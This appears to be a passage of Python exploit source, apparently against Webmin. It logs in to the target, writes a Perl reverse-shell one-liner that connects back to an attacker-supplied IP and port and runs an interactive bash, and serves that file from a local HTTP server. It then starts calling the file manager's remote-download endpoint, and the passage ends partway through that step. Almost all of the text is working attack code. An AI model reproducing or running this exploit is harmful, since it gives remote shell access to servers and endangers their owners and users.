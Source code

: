 ```python

class Exploit(object):
    def __init__(self, target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname):
        self.target = target
        self.username = username
        self.password = password
        self.py3http_server = py3http_server
        self.pyhttp_port = pyhttp_port
        self.upload_path = upload_path
        self.callback_ip = callback_ip
        self.callback_port = callback_port
        self.fname = fname

        #self.proxies = proxies
        self.s = requests.Session()


    def gen_payload(self):
        payload = ('''perl -e 'use Socket;$i="''' + self.callback_ip  + '''";$p=''' + self.callback_port + ''';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' ''')
        print(TCYAN + f"\n[+] Generating payload to {self.fname} in current directory", ENDC)
        f = open(f"{self.fname}", "w")
        f.write(payload)
        f.close()

    def login(self):
        login_url = self.target + "/session_login.cgi"
        cookies = { "redirect": "1", "testing": "1", "PHPSESSID": "" }

        data = { 'user' : self.username, 'pass' : self.password }
        try:
            r = self.s.post(login_url, data=data, cookies=cookies, verify=False, allow_redirects=True, timeout=10)
            success_message = 'System hostname'
            if success_message in r.text:
                print(TGREEN + "[+] Login Successful", ENDC)
            else:
                print(TRED +"[-] Login Failed", ENDC)
                exit()

        except requests.Timeout as e:
            print(TRED + f"[-] Target: {self.target} is not responding, Connection timed out", ENDC)
            exit()

    def pyhttp_server(self):
        print(f'[+] Attempt to host http.server on {self.pyhttp_port}\n')
        os.system(f'(setsid $(which python3) -m http.server {self.pyhttp_port} 0>&1 & ) ') # add 2>/dev/null for clean up
        print('[+] Sleep 3 second to ensure http server is up!')
        time.sleep(3) # Sleep for 5 seconds to ensure http server is up!

    def download_remote_url(self):
        download_url = self.target + "/extensions/file-manager/http_download.cgi?module=filemin"
        headers = { 
                    "Accept": "application/json, text/javascript, */*; q=0.01", 
                    "Accept-Encoding": "gzip, deflate", 
                    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
                    "X-Requested-With": "XMLHttpRequest", 
                    "Referer": self.target + "/filemin/?xnavigation=1" 
        }
```